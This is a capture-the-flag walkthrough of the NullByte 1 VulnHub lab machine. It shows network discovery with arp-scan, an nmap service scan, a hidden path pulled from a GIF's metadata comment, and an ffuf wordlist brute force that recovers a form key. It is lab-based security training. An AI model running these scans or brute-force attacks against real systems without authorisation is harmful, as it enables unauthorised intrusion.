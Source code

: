 # NULLBYTE: 1

## 1.Get VM IP

```text
root@kali: arp-scan -I eth1 -l

Interface: eth1, type: EN10MB, MAC: 00:0c:29:3a:bc:b3, IPv4: 192.168.127.128
Starting arp-scan 1.10.0 with 256 hosts (https://github.com/royhills/arp-scan)
192.168.127.1   00:50:56:c0:00:01       VMware, Inc.
192.168.127.232 00:0c:29:5a:43:e9       VMware, Inc.
192.168.127.254 00:50:56:fd:64:8a       VMware, Inc.
```

The IP address is `192.168.127.232`, let's enumerate the machine.

## 2.Enumeration

```text
root@kali: nmap -sV -sC -p- -v -oN fullscan 192.168.127.232

Nmap scan report for 192.168.127.232
Host is up (0.0022s latency).
Not shown: 65531 closed tcp ports (reset)
PORT      STATE SERVICE VERSION
80/tcp    open  http    Apache httpd 2.4.10 ((Debian))
| http-methods:
|_  Supported Methods: OPTIONS GET HEAD POST
|_http-server-header: Apache/2.4.10 (Debian)
|_http-title: Null Byte 00 - level 1
111/tcp   open  rpcbind 2-4 (RPC #100000)
| rpcinfo:
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          38099/tcp6  status
|   100024  1          49056/udp   status
|   100024  1          49267/tcp   status
|_  100024  1          53634/udp6  status
777/tcp   open  ssh     OpenSSH 6.7p1 Debian 5 (protocol 2.0)
| ssh-hostkey:
|   1024 16:30:13:d9:d5:55:36:e8:1b:b7:d9:ba:55:2f:d7:44 (DSA)
|   2048 29:aa:7d:2e:60:8b:a6:a1:c2:bd:7c:c8:bd:3c:f4:f2 (RSA)
|   256 60:06:e3:64:8f:8a:6f:a7:74:5a:8b:3f:e1:24:93:96 (ECDSA)
|_  256 bc:f7:44:8d:79:6a:19:48:76:a3:e2:44:92:dc:13:a2 (ED25519)
49267/tcp open  status  1 (RPC #100024)
MAC Address: 00:0C:29:5A:43:E9 (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

On port 80, we see a web page like this :

![mainPage](https://github.com/Git-K3rnel/VulnHub/assets/127470407/c2abb771-965c-4fbf-a5db-1906e0d2dc71)

fuzzing the website leads to finding a `phpmyadmin` path and nothing else, because there is no clue here i thought that there might be something in the image itself

so i downloaded the image (which is a gif file) and inspect it with `exiftool` :

```text
root@kali: exiftool main.gif

ExifTool Version Number         : 12.65
File Name                       : main.gif
Directory                       : .
File Size                       : 17 kB
File Modification Date/Time     : 2015:08:01 12:39:30-04:00
File Access Date/Time           : 2023:09:23 07:03:57-04:00
File Inode Change Date/Time     : 2023:09:23 06:52:11-04:00
File Permissions                : -rw-r--r--
File Type                       : GIF
File Type Extension             : gif
MIME Type                       : image/gif
GIF Version                     : 89a
Image Width                     : 235
Image Height                    : 302
Has Color Map                   : No
Color Resolution Depth          : 8
Bits Per Pixel                  : 1
Background Color                : 0
Comment                         : P-): kzMb5nVYJw
Image Size                      : 235x302
Megapixels                      : 0.071
```

as it is shows in `Comment` section we see a string, `kzMb5nVYJw`, which is more likely to be the path

by adding this string to the path in the website, page below is shown :

![keypage](https://github.com/Git-K3rnel/VulnHub/assets/127470407/1c4156b7-7c45-4c95-bbb5-c9cb7be3d9ac)

and the page source has a comment :

```text
<!-- this form isn't connected to mysql, password ain't that complex --!>
```

so we can some how brute force the password here, i used `ffuf` for doing this, but you can also use a custome python script or some other tools :

```text
root@kali: ffuf -w /usr/share/wordlists/rockyou.txt  -H "Content-Type: application/x-www-form-urlencoded" -X POST -d "key=FUZZ" -u http://192.168.127.232/kzMb5nVYJw/index.php -fw 19

[Status: 200, Size: 145, Words: 9, Lines: 7, Duration: 6ms]
    * FUZZ: elite
```

just provide the `elite` in the key input box and you will see the below page :

![index](https://github.com/Git-K3rnel/VulnHub/assets/127470407/80cac999-57d2-4378-862a-a7cbfa7c47f7)














